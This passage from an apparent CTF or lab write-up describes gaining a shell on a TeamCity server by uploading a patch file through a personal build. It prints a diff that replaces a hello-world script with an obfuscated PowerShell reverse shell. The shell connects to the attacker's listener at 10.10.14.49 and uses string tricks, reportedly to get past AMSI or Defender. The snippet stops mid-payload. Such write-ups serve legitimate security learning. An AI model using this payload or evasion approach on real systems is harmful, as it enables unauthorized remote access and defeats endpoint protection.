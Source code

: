 After uploading the patch file through the personal build, the log now prints the script output as `Hello, Abraxas!`.

![personal-build-patch-test](./images/personal-build-patch-test.png "Personal build log")

### Shell as svc_teamcity

Subsequently, I attempted a standard reverse shell payload, but I got no response, possibly due to AMSI or Defender. In an attempt to bypass that, I used a powershell [obfuscated payload](https://gist.github.com/AbraXa5/81ec18193f1247628fa90ee9bbfe2f1f), which gave me a shell as the `svc_teamcity` user on my local netcat listener.

```bash
❯ git diff > rev_shell.patch
❯ cat rev_shell.patch
diff --git a/hello_world.ps1 b/hello_world.ps1
index 09724d2..aab74af 100644
--- a/hello_world.ps1
+++ b/hello_world.ps1
@@ -1,2 +1,18 @@
-#Simple repo test for Teamcity pipeline
-write-host "Hello, World!"
+Set-Alias -Name K -Value Out-String
+Set-Alias -Name nothingHere -Value iex
+$BT = New-Object "S`y`stem.Net.Sockets.T`CPCl`ient"('10.10.14.49',9005);
+$replace = $BT.GetStream();
+[byte[]]$B = 0..(32768*2-1)|%{0};
+$B = ([text.encoding]::UTF8).GetBytes("(c) Microsoft Corporation. All rights reserved.`n`n")
+$replace.Write($B,0,$B.Length)
+$B = ([text.encoding]::ASCII).GetBytes((Get-Location).Path + '>')
+$replace.Write($B,0,$B.Length)
+[byte[]]$int = 0..(10000+55535)|%{0};
```